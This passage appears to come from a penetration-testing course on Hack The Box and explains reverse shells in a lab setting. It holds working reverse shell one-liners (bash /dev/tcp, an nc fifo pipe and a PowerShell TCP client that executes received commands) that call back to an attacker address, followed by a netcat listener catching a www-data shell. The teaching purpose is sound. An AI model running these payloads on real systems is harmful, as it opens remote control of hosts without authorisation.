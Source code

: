 kappajester83@htb[/htb]$ ip a

...SNIP...

3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 500
    link/none
    inet 10.10.10.10/23 scope global tun0
...SNIP...

In our example, the IP we are interested in is under tun0, which is the same HTB network we connected to through our VPN.

Note: We are connecting to the IP in 'tun0' because we can only connect to HackTheBox boxes through the VPN connection, as they do not have internet connection, and therefore cannot connect to us over the internet using `eth0`. In a real pentest, you may be directly connected to the same network, or performing an external penetration test, so you may connect through the `eth0` adapter or similar.
Reverse Shell Command

The command we execute depends on what operating system the compromised host runs on, i.e., Linux or Windows, and what applications and commands we can access. The Payload All The Things page has a comprehensive list of reverse shell commands we can use that cover a wide range of options depending on our compromised host.

Certain reverse shell commands are more reliable than others and can usually be attempted to get a reverse connection. The below commands are reliable commands we can use to get a reverse connection, for bash on Linux compromised hosts and Powershell on Windows compromised hosts:
Code: bash

bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

Code: bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

Code: powershell

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"

We can utilize the exploit we have over the remote host to execute one of the above commands, i.e., through a Python exploit or a Metasploit module, to get a reverse connection. Once we do, we should receive a connection in our netcat listener:
Types of Shells

kappajester83@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

As we can see, after we received a connection on our netcat listener, we were able to type our command and directly get its output back, right in our machine.
